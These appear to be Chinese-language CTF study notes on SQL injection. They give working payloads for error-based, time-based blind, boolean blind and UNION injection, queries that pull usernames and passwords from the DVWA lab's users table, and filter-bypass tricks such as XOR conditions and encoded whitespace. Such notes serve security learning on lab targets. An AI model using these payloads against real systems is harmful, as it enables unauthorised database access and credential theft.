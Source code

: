 # sql 注入

1，构造错误

使用‘或者’‘，先判断是否有sql注入，后面的通过	--	’将原有代码的后续注释掉。

2，时间盲注与布尔盲注

有时候并不会返回查询结果，所以需要盲注判断是否有sql注入

（1，时间盲注

```sql
' and sleep(5) -- '
```

这样可以通过页面的停顿检验是否有sql注入

（2，布尔盲注

布尔逻辑注入的思路是闭合SQL语句、构造or和and逻辑语句、注释多余的代码。

3，union注入

首先猜测数据列数 

```
' union select 1 -- ' 
' union select 1,2 -- ' 
' union select 1,2,3 -- ' 
' union select 1,2,3,4 -- ’
```

 之后可以查询database（），version（），user（）等查看数据库类型，用户名，版本等。

以MySQL数据库为例（比赛常见的），MySQL数据库有一个显著的特点就是information_schema数据库是MySQL自带的，它提供了访问数据库元数据的方式。

接下来我们可以通过构造sql语句，查询我们感兴趣的数据库->感兴趣的表->找出表中重要的行

- `CONCAT`函数用于将多个字符串值拼接成一个字符串。比如只有一个注入点，可以使用concat（id，user，password）一次性查询到三个数据
- `GROUP_CONCAT`函数用于将多个行的值拼接成一个字符串，例如，如果你有一个包含多个行的`names`列，`GROUP_CONCAT(names SEPARATOR ', ')`将返回所有`names`值的以逗号分隔的单个字符串。

//查询所有库名 

```
'union select TABLE_SCHEMA, 1 from INFORMATION_SCHEMA.tables -- '
```

//查看所库中所有表名 

```
'union select table_name, 1 from INFORMATION_SCHEMA.tables -- '
```

//查询dvwa这个库下的表

```
'union select table_name, 1 from INFORMATION_SCHEMA.tables where TABLE_SCHEMA='dvwa' -- '
```

//查询user这个表的行

```
'union select table_name, COLUMN_NAME from INFORMATION_SCHEMA.columns
where TABLE_SCHEMA='dvwa' and TABLE_NAME='users' -- ' 
```

使用contact更直观查询

```
'union select user_id, concat(first_name,' ',last_name,' ',user,'
',password) from dvwa.users -- '
```

## 2，常见的sql过滤

上面介绍的只是很简单的sql注入程序。实际上可能会有对某些特定字符的检查，比如

[华北赛区 day2 web1 hack world]: https://www.cnblogs.com/upfine/p/16529318.html



这个题对union，and这些包括空格都过滤了。（可以使用fuzz对sql过滤的进行检测）

在盲注时候发现1/2返回异常，猜测是布尔盲注。但是union，and，or这些都过滤了。发现^这个异或没有过滤，且有布尔注入。

我们可以考虑构造payload使用异或，select。我每次从flag里提取一个字符，枚举这个字符大小。如果他大了，或者小了，他的结果是0/1。我们可以根据这个区别进行当前flag的字符枚举判断。

而且我们这里使用不了空格，对于空格替代，我们有多种思路

1，16进制编码。2，（）代替。3，tab建代替。三种均可尝试，实验中我选择第二种。还有%20 %09 %0a %0b %0c %0d %a0 /**/这些方式可以绕过空格

- `%20` 是URL编码中的空格字符。在URL中不能使用普通的空格，因此使用 `%20` 来代替。
- `%09` 是水平制表符（Tab）的URL编码。
- `%0a` 是换行符（LF）的URL编码。
- `%0b` 是垂直制表符的URL编码。
- `%0c` 是换页符的URL编码。
- `%0d` 是回车符（CR）的URL编码。
- `%a0` 是不间断空格（non-breaking space）的URL编码。

这里就需要写脚本。

------

这一道题算是比较简单的，因为他指明从flag数据库获取flag列，那么如果没有这些提示呢，我们需要自己手动注入来进行查询，步骤又回到我们的第一个程序。

------

[[WUSTCTF2020]颜值成绩查询](https://www.cnblogs.com/upfine/p/16367693.html)



